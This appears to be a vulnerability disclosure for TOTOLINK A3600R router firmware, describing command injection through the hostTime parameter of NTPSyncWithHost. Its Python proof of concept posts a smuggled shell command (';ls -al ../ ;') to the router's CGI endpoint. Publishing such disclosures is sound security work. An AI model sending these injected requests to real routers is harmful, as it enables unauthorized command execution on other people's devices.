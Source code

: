## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a command injection vulnerability in the `NTPSyncWithHost` function. The `v5` variable receives the `hostTime` parameter from a POST request. However, since the user can control the input of `hostTime`, the telnet service can cause a command injection vulnerability.

![image-20240721213434160](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213434160.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
    "topicurl":"setting/NTPSyncWithHost",
    "hostTime":";ls -al ../ ;"
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)
